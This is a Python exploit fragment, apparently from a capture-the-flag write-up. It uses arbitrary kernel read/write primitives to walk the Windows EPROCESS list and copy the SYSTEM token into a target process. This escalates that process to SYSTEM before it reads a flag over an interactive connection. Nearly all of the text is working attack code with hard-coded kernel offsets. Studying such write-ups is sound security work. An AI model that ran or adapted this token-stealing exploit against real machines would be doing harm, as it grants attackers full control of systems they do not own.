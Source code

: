 ```py
def read_at_va(va: int) -> int:
    return read_at(va - secret_store_base)


def write_to_va(va: int, val: int) -> None:
    write_to(va - secret_store_base, val)


kernel_offset = kernel_base - secret_store_base
print('[*] kernel_offset @', hex(kernel_offset))

print('[*] ok we are ready')

PsInitialSystemProcess_off = 0xD107E0
ActiveProcessLinks_off = 0x448
Token_off = 0x4b8
Pid_off = 0x440

PsInitialSystemProcess = read_at_va(kernel_base + PsInitialSystemProcess_off)
print('[*] [PsInitialSystemProcess] ->', hex(PsInitialSystemProcess))


system_token = read_at_va(PsInitialSystemProcess + Token_off)
print('[*] system_token', hex(system_token))


def get_process(tgt_pid: int) -> int:
    links = PsInitialSystemProcess + ActiveProcessLinks_off
    head = links

    while True:
        links = read_at_va(links + 8)
        print('[*] links', hex(links))

        if links == head:
            print('[!] LINKS == HEAD')
            break

        eprocess = links - ActiveProcessLinks_off
        print('[*] eprocess', hex(eprocess))

        pid = read_at_va(eprocess + Pid_off)
        if pid != tgt_pid:
            continue

        return eprocess

    return 0


target_eprocess = get_process(process_id)
print('[*] target_eprocess', hex(target_eprocess))

print('[*] overwriting token *crossed fingers*')
write_to_va(target_eprocess + Token_off, system_token)

print('[*] reading the flag')
io.sendline(b'3')
io.interactive()
```
